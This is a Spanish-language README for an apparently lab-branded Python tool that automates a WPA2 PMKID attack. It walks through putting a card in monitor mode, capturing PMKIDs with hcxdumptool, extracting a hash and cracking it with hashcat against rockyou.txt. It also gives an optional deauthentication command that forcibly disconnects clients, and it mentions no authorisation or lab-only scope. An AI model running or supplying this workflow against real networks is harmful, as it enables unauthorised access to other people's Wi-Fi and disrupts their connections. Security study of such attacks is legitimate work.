 ## Objetivo
Sin desconectar al cliente, capturar la PMKID que el punto de acceso (AP) 
envía durante cada asociación y crackearla sin conexión.

## Requisitos
- Python 3.x  
- `wpa2_lab.py` (este repositorio)  
- Adaptador Wi-Fi capaz de modo monitor  
- Herramientas externas:
  - `hcxdumptool` (incluye `hcxpcaptool`)
  - `hashcat` (v6.2 o superior)  
- Diccionario de contraseñas (ej. `/usr/share/wordlists/rockyou.txt`)  
- Permisos de super-usuario para operaciones con interfaz Wi-Fi  

## Instalación rápida
Clonar el repositorio y situarse en la carpeta:

```bash
git clone https://github.com/tu-usuario/wpa2lab.git
cd wpa2lab
```

Asegúrate de que `wpa2_lab.py` sea ejecutable:

```bash
chmod +x wpa2_lab.py
```
Opcional: crea un venv y activalo antes de instalar requisitos. 

```bash
source venv/bin/activate 
```

## Uso exprés (menú interactivo)

Lanza el menú gráfico:

```bash
sudo ./wpa2_lab.py
```
![Menú principal](docs/img/menu.png)

Un flujo típico sería 1 → 4 → 5 → 6 → 7.
(Monitor → Scan → Capture → Extract → Crack).

## Guía de uso exprés con comandos

### 1. Poner la tarjeta en modo monitor

```bash
sudo ./wpa2_lab.py prepare 
```
###  Levantar AP en wlan

```bash
sudo ./wpa2_lab.py ap 
```

### 2. Capturar la PMKID

```bash
sudo ./wpa2_lab.py capture
# Capturando PMKID en wlan1mon → dump.pcapng
# (Pulsa Ctrl-C para detener la captura)
```

Esto genera un archivo `dump.pcapng` con todas las asociaciones 
AP↔cliente y los PMKID correspondientes.

### 3. Extraer el hash para Hashcat

```bash
sudo ./wpa2_lab.py extract
# Extrae hash → hash.22000
```

Internamente se ejecuta:

```bash
hcxpcaptool -z hash.22000 dump.pcapng
```

### 4. Crackear sin conexión

```bash
sudo ./wpa2_lab.py crack
```

Que lanza automáticamente:

```bash
hashcat -m 22000 hash.22000 /usr/share/wordlists/rockyou.txt
```

## 5. Ataque de desautenticación (opcional)

Si no hay tráfico y ningún cliente se asocia al AP, puedes forzar una 
reasociación enviando paquetes de desautenticación:

```bash
sudo ./wpa2_lab.py deauth
```
Esto envía paquetes deauth al objetivo seleccionado, provocando que
los clientes se desconecten y vuelvan a asociarse, momento en el cual
el AP volverá a enviar el PMKID (ideal para capturarlo).

## ¿Cómo funciona el ataque de diccionario?
Hashcat recorre cada contraseña del fichero elegido (en el ejemplo 
`rockyou.txt`) y calcula la clave maestra necesaria para verificar si 
coincide con el hash PMKID extraído.  
Si la clave WPA2 de la red está dentro del diccionario, Hashcat la
descubrirá y la mostrará en pantalla.

## Archivos generados
- **dump.pcapng** – Captura de tráfico con PMKID  
- **hash.22000**  – Hash listo para Hashcat (formato modo 22000)

## Opciones adicionales
Todos los subcomandos aceptan `-h / --help` para ver parámetros 
opcionales como interfaz de captura, canal, salida personalizada, 
métodos de ataque, etc.
